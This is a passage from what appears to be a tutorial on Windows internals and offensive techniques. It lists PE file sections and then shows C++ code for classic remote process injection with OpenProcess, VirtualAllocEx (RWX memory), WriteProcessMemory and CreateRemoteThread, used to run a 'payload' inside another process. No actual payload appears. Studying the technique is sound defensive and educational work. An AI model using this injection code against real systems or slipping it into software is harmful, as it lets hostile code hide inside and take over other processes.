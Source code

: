 Now that the headers have defined the format and function of the file, the sections can define the contents and data of the file.

|   |   |
|---|---|
|**Section  <br>**|**Purpose**|
|.text|Contains executable code and entry point|
|.data|Contains initialized data (strings, variables, etc.)|
|.rdata or .idata|Contains imports (Windows API) and DLLs.|
|.reloc|Contains relocation information|
|.rsrc|Contains application resources (images, etc.)|
|.debug|Contains debug information|

### Windows API Calls

1. At step one, we can use **OpenProcess** to obtain the handle of the specified process.

```C++
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Defines access rights
	FALSE, // Target handle will not be inhereted
	DWORD(atoi(argv[1])) // Local process supplied by command-line arguments 
);
```

2. At step two, we can use VirtualAllocEx to allocate a region of memory with the payload buffer.
```C++
remoteBuffer = VirtualAllocEx(
	hProcess, // Opened target process
	NULL, 
	sizeof payload, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

3.  At step three, we can use WriteProcessMemory to write the payload to the allocated region of memory.
	```C++
WriteProcessMemory(
	hProcess, // Opened target process
	remoteBuffer, // Allocated memory region
	payload, // Data to write
	sizeof payload, // byte size of data
	NULL
);
```

4. At step four, we can use CreateRemoteThread to execute our payload from memory.
```C++
remoteThread = CreateRemoteThread(
	hProcess, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
); 
```
